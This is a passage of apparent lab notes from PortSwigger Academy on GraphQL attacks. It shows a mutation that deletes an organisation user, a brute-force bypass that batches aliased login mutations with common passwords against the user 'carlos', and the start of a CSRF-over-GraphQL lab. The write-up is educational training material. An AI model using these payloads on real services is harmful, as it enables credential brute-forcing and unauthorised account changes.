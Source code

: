 - Add variable: `{"id":3}`

- And mutation to delete it:

```html
mutation($input: DeleteOrganizationUserInput) {
  deleteOrganizationUser(input: $input) {
    user {
      id
      username
    }
  }
}
```

- Add variable: `{"input":{"id":3}}`
Done!

#### Lab: Bypassing GraphQL brute force protections (Portswigger Academy)

- Start with an login attempt, notice graphQL endpoint in Target Site Map, next we could try an introseption query and add result to the Target Site Map
- Then using mutation login query we could try a tip we get in the lab (producing similar functions to login) so query will looks kind of like this:

```html
mutation login {

bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }
    ...
```

- Just checkout the response for the right answer!

#### Lab: Performing CSRF exploits over GraphQL (Portswigger Academy)

- Mutation for a email change could be converted to a mutation query with variables as a request params:
